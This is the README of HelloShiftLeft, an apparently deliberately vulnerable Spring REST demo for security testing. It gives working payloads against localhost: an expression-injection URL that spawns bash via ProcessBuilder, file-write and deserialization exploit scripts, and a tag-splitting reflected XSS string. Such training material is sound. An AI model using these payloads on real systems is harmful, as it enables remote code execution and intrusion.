 


# HelloShiftLeft

This is a demo application which provides a real world representation of a REST service that uses a mix of convention and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as sensitive data leaking to logs, data secrets leaks, authentication bypass, remote code execution, XSS vulnerabilites etc. The sample sensitive data is a mix of financial data such as account information, medical data of patients, and other PII data such as customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilites. The application is built on the Spring Framework and exposes a series of endpoints and APIs for queries and simulating exploits.


## Build
 ```sh
 $ git clone https://github.com/ShiftLeftSecurity/HelloShiftLeft.git
 $ cd HelloShiftLeft
 $ mvn clean package
 ```
 
## Run
 ```sh
 $ java -jar target/hello-shiftleft-0.0.1.jar
```

## Exercise Vulnerabilites and Exposures
Once the application starts, vulnerabilites and exposures in it can be tested with API access patterns described below and through example scripts provided in the [exploits](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits) directory. These are summarized below:  

### Sensitive Data Leaks to Log

| URL | Purpose |
| --- | ------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers   | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients    | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1   | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account     | Returns JSON representation of all available accounts and their details |

All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

[http://localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()](http://localhost:8081/search/user?foo=new%20java.lang.ProcessBuilder(%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27echo%203vilhax0r%3E%2Ftmp%2Fhacked%27%7D).start())

This creates a file `/tmp/hacked` with the content `3vilhax0r`

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:
```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```
This creates a file named `testfile` with `3vilhax0r` as its contents

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:
```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
```

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the _hidden_ `/debug` endpoint as follows:

[http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>](http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>)

It raises and alert dialogue and returns the Customer object data.
../..

